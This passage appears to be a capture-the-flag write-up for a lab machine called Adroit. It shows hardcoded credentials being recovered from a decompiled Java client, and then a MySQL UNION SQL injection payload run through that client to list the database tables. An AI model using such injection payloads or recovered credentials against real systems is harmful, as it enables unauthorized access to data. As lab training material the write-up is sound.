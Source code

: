 ## reading the structure.PNG

We are able to collect important information from the image the vm running `mysql` and the database name is `adroit`

## Jd-gui, reading the adroitclient.jar

- From `AdroitClient.class` we have got the secret, the credentials and the hostname


{% highlight java %}
 private static final String secret = "Sup3rS3c********";
{% endhighlight %}

{% highlight java %}
 socket = new Socket("adroit.local", 3000);
{% endhighlight %}

{% highlight java %}
 if (userName.equals(crypt.encrypt("Sup3rS3c********", "z***")) &&
     password.equals(crypt.encrypt("Sup3rS3c********", "god.thunder.*******")))     
{% endhighlight %}

- Edit `/etc/hosts`

```
<TARGET_IP>   adroit.local
```

## MySQL UNION injection

- Syntax

```mysql
 1 or 1=1 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='adroit'--
```

{% highlight sh %}
  ┌──(alienum㉿kali)-[~/Desktop]
  └─$ java -jar adroitclient.jar                                  
  Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
  Enter the username :
  zeus
  Enter the password :
  god.thunder.olympus
  Options [ post | get ] :
  get
  Enter the phrase identifier :
  1 or 1=1 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='adroit'--

  RESULT : haxor ideas users
{% endhighlight %}
